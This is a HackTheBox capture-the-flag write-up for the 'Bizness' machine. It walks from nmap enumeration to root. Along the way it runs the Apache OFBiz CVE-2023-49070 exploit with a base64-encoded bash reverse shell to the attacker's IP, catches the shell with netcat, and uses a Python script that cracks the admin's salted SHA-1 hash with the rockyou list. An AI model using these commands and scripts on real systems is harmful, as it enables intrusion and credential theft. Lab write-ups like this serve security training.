




# Bizness - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `443`.

***User***: Identified Apache OFBiz as vulnerable to `CVE-2023-49070` and obtained Remote Code Execution (RCE) as the `ofbiz` user.

***Root***: Discovered the hashed password in the `.dat` file along with instructions on its creation in the `docker-entrypoint.sh` file. Decrypted the password, revealing the `root` password.


## Bizness Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness]
└──╼ $ nmap -sV -sC -oA nmap/Bizness 10.10.11.252
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-13 21:54 IST
Nmap scan report for 10.10.11.252
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Observing https://bizness.htb/, we see that the following web page is hosted:



During enumeration with `dirbuster`, we discovered the following webpage hosted at https://bizness.htb/webtools/control/xmlrpc:



The logo clearly indicates it is `Apache OFBiz. Release 18.12`.

Apache OFBiz is an Enterprise Resource Planning (ERP) system, a versatile Java-based web framework widely used across industries..

We can leverage [CVE-2023-49070](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) to achieve Remote Code Execution (RCE):
```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness/Apache-OFBiz-Authentication-Bypass]
└──╼ $ python3 exploit.py --url https://bizness.htb/ --cmd 'bash -c echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80MjQyIDA+JjEK|base64${IFS}-d|bash'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

Where `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80MjQyIDA+JjEK` is `bash -i >& /dev/tcp/10.10.14.14/4242 0>&1"`.

This results in obtaining a reverse shell as the `ofbiz` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness/Apache-OFBiz-Authentication-Bypass]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from bizness.htb [10.10.11.252] 49120
bash: cannot set terminal process group (736): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ whoami
whoami
ofbiz
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt
cat /home/ofbiz/user.txt
afeb55d402e278adc94d020d5aa40b3e
```

And we get the user flag `afeb55d402e278adc94d020d5aa40b3e`.


### Root

By searching for the text `password`, we located several files:
```console
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ cat c54d0.dat
cat c54d0.dat
          <ofbiz-ser>
                <map-HashMap>
                    <map-Entry>
                        <map-Key>
                            <std-String value="recurrenceInfoId"/>
                        </map-Key>
                        <map-Value>
                            <std-String value="400"/>
                        </map-Value>
                    </map-Entry>
                </map-HashMap>
            </ofbiz-ser>
			<?xml version="1.0" encoding="UTF-8"?><ofbiz-ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <std-String value="updatedUserLogin"/>
            </map-Key>
            <map-Value>
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
            </map-Value>

```

We can see the `currentPassword` `currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"`.

On `docker-entrypoint.sh` we found:
```console
ofbiz@bizness:/opt/ofbiz$ cat docker/docker-entrypoint.sh
...
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}

```

According to the `docker-entrypoint.sh` file, we can deduce that the password format is `ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"`

To crack it, we can employ the following `python` script:
```python
import hashlib, uuid, base64

salt = "d".encode('utf-8')
currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

with open("./rockyou.txt","r") as rockyou:
    lines = rockyou.readlines()
    for password in lines:
        encoded_password = password.strip().encode('utf-8')
        hashed_password = hashlib.sha1(salt + encoded_password).digest()
        b64_password = base64.urlsafe_b64encode(hashed_password).decode('utf-8').replace('+','.').replace('=','')
        compare_string = f"$SHA$d${b64_password}"

        if compare_string == currentPassword:
            print(f"The password is {password}")
            break

```

Executing the script revealed the password `monkeybizness`.

We can utilize this password to escalate privileges to `root`:
```console
ofbiz@bizness:/opt/ofbiz$ su -
su -
Password: monkeybizness
cat /root/root.txt
c3c52df2cea0f6a4eabe321ca2384da8
```

PDF password
```console
$y$j9T$pJW9XfkWvA4ozHorBy1kA1$MMNByIaVvdq4YrIpvYDEIfckbiKog11HxKcxJkAZLcA
```